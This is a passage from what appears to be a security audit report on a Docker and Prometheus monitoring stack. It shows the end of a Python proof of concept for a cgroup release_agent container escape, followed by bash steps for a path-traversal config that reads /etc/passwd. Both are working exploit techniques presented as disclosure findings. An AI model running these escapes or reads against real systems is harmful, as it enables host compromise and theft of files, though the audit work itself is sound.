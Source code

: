 ```python
        "echo 1 > /tmp/cgrp/x/notify_on_release",
        "echo '/var/lib/docker/overlay2/l/*/diff/cmd' > /tmp/cgrp/release_agent",
        "echo '#!/bin/sh\ntouch /rootfs/tmp/container_escaped' > /cmd",
        "chmod a+x /cmd",
        "sh -c 'echo $$ > /tmp/cgrp/x/cgroup.procs'",
    ]
    
    for cmd in escape_commands:
        result = subprocess.run(
            ["docker", "exec", "claude-node-exporter", "sh", "-c", cmd],
            capture_output=True,
            text=True
        )
        print(f"[*] Executed: {cmd}")
        
    time.sleep(2)
    
    # Check if escape worked
    check = subprocess.run(
        ["ls", "-la", "/tmp/container_escaped"],
        capture_output=True,
        text=True
    )
    
    if check.returncode == 0:
        print("[+] Container escape successful!")
        print("[+] Host filesystem compromised")
    else:
        print("[-] Container escape failed")

if __name__ == "__main__":
    escape_privileged_container()
```

### 4. Path Traversal via Volume Mounts (Medium - CVSS 6.5)

**Description**: The Docker volumes mount configuration files without proper validation, potentially allowing path traversal attacks.

**Impact**: Read access to arbitrary files on the host system.

#### Proof-of-Concept Exploit

**Setup Requirements**:
- Ability to modify prometheus.yml before container start
- Docker/Podman installation

**Manual Exploitation**:
```bash
# Step 1: Create malicious prometheus config with path traversal
cat > prometheus.yml << 'EOF'
global:
  scrape_interval: 15s

scrape_configs:
  - job_name: 'exploit'
    file_sd_configs:
      - files:
          - '/etc/../../../../etc/passwd'
EOF

# Step 2: Start the stack
./manage.sh up

# Step 3: Access the exposed file through Prometheus
```